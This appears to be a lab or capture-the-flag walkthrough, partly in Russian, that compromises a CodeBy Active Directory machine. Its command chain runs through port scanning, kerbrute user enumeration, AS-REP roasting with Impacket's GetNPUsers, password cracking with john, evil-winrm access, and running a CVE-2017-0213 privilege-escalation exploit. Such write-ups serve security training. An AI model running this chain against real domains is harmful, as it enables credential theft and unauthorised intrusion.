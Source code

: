 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9d8548d1-1a8f-4b78-bd5a-8fccb3659957)
```
nmap -p- 192.168.2.2 -v 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcb6da32-cea4-403c-9397-9a3783c16877)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/af92e839-6787-4485-b58f-b592b4985dbd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/535cbc99-318b-4b55-9209-95c67fb518d0)

```
nmap 192.168.2.2 -v -sC -sV
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/89a16d7f-54dc-47fb-9d28-78a1557835f8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7da0c360-b644-4881-b0e4-283b041dc9d3)

Формируем список пользователей с помощью скрипта:
```
tut script python
```
Получаем такой файл

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0662a67-eec6-40b9-8fc9-8ba22ac46a3e)

+ добавляем admin, administrator, Administrator, Admin и т.д.

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/

https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.2 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/05796fc8-26cd-4a58-a283-2957d77a9a64)

https://wadcoms.github.io/wadcoms/Impacket-GetNPUsers/
https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py codeby.cdb/ -dc-ip 192.168.2.2 -usersfile user-hack.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8093b52d-b8e6-4c3a-9182-7711d460f511)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6377e73c-ce8a-4a78-bcd3-09c73e44d1c7)

john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash-kovaleva.txt 

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e0a49758-64c9-4bed-a116-134d7b04ea4a)
```
evil-winrm -i 192.168.2.2 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/695aca7e-e845-447e-9bb8-7bdfc20367ce)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97dd49d3-0a4b-400a-a92b-083764b07420)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/44d1badc-7f98-437f-ac3c-a09e8ba8aaff)

Remmina

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6140441b-f902-4f07-b03e-66000f074fa1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec67c0ff-68e9-408a-8747-ba16afa1a625)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ecc078f6-78a9-4a8c-8f30-10bbdd3d8f8b)

Ищем CVE-2017-0213 на гите 

https://github.com/eonrickity/CVE-2017-0213

Грузим его через Ковалеву и запускаем

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6365bd44-596c-4612-9f3a-6faa7c26d34e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9ce179a9-1e65-44f3-9ac0-618836f41ec5)





